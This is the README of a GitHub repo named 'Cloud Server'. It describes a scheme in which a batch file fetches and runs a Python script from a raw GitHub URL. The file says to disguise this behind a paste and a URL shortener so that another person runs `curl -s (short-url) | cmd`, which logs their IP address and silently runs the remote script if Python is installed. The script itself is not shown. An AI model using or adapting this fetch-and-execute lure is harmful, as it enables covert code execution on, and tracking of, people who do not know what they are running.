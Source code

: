 # Cloud Server

This is a Cloud Server in GitHub, this is not intended for public usage.
It's a complete garbage repo if you don't know what this is.

## Information

The "connect.bat" file will be execute the code in "server.py"; in order to do the same, you need to clone the repo; copy the Raw URL of "server.py".
After that, you'll need to replace the "https://raw.githubusercontent.com/snowyxxdev/cloud-server/refs/heads/main/server.py" in "connect.bat" with the copied Raw URL.

You can create a paste containing the "connect.bat" contents, and use a URL shortener. Now, if you run the following command:
`curl -s (short-url) | cmd`
The IP Address will be logged, and provided from the URL shortener service (depending on which service).
And, if they have Python installed; it'll automatically run the code in "server.py".


### Made by @snowyxxdev
